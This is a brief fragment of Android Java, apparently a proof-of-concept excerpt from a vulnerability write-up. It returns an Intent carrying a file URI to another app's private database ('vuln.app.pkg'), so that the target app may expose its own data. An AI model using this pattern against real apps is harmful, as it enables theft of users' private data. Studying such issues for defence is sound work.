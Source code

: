     Intent intent = new Intent();
    File privFile = new File("/data/data/vuln.app.pkg/databases/main.db");
    intent.setData(Uri.fromFile(privFile));
    setResult(RESULT_OK, intent);
    finish();